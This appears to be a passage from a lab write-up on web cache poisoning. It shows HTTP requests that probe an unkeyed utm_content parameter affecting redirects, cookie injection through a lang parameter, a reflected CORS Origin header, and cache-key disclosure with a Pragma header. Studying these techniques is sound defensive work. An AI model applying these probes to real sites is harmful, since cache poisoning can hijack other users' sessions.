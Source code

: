 ```http
GET /login?lang=en?utm_content=test HTTP/2
```

It is NOT keyed and it affects the `Location` header
```http
-
Location: /login/?lang=en&utm_content=test
```

or

```http
-
Location: /login/?lang=en?utm_content=test
```

That means we can manipulate the value of `Location` header with unkeyed values of `utm_content`.

#### Client-side parameter pollution via the `lang` parameter
Now inspect Request:
```http
GET /js/localize.js?lang=en&cors=0 HTTP/2
```

Response:
```
document.cookie = 'lang=en';
```

Test if we can manipulate the cookie

Request:
```http
GET /js/localize.js?lang=test&cors=0 HTTP/2
```

Response:
```
document.cookie = 'lang=test';
```

#### Response header injection via the `Origin` request header

Now let's test the `cors` parameter by setting it to `1`:

```http
GET /js/localize.js?lang=test&cors=1 HTTP/2
```

Notice `Vary: origin`

For `Origin: test.cb` we will get `Access-Control-Allow-Origin: test.cb`. Classical dev mistake.

#### cache key injection
Add  `Pragma: x-get-cache-key` header to the Request

```http
GET /js/localize.js?lang=test&cors=1 HTTP/2
Origin: test.cb
-
Pragma: x-get-cache-key
```
